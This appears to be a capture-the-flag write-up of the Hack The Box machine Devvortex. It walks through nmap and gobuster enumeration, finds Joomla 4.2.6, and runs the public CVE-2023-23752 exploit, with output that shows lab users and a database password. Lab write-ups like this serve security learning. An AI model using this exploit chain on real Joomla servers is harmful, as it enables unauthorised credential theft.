 ```bash
HOP RTT      ADDRESS
1   40.37 ms 10.10.14.1
2   32.92 ms devvortex.htb (10.10.11.242)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.94 seconds
```
- Domain found: `devvortex.htb`
- Ports open: `22, 80`

Further enumeration using `gobuster` (`vhost`, `dir`, `dns`) doesn't lead to much, although we do find:
- `dev.devvortex.htb`

After enumerating this endpoint with gobuster through directory brute forcing we find:
`dev.devvortex.htb/administrator`

Switching over to the Wappalyzer extension it says the site is Joomla
- [Joomla Hacktrickz](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)

We find the Joomla version at `/administrator/manifests/files/joomla.xml`
![alt](/posts/devvortex-htb.png)

Joomla Version: `4.2.6`

After searching google "**Joomla 4.2.6 exploits**" we find [CVE-2023-23752](https://www.exploit-db.com/exploits/51334)
if you have `searchsploit` installed locally along with `exploit-db`, you should already have this locally. 
```bash
Joomla! v4.2.8 - Unauthenticated information disclosure       | php/webapps/51334.rb
/usr/share/exploitdb/exploits/php/webapps/51334.rb
```

After running this exploit:
```bash
 ruby /usr/share/exploitdb/exploits/php/webapps/51334.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
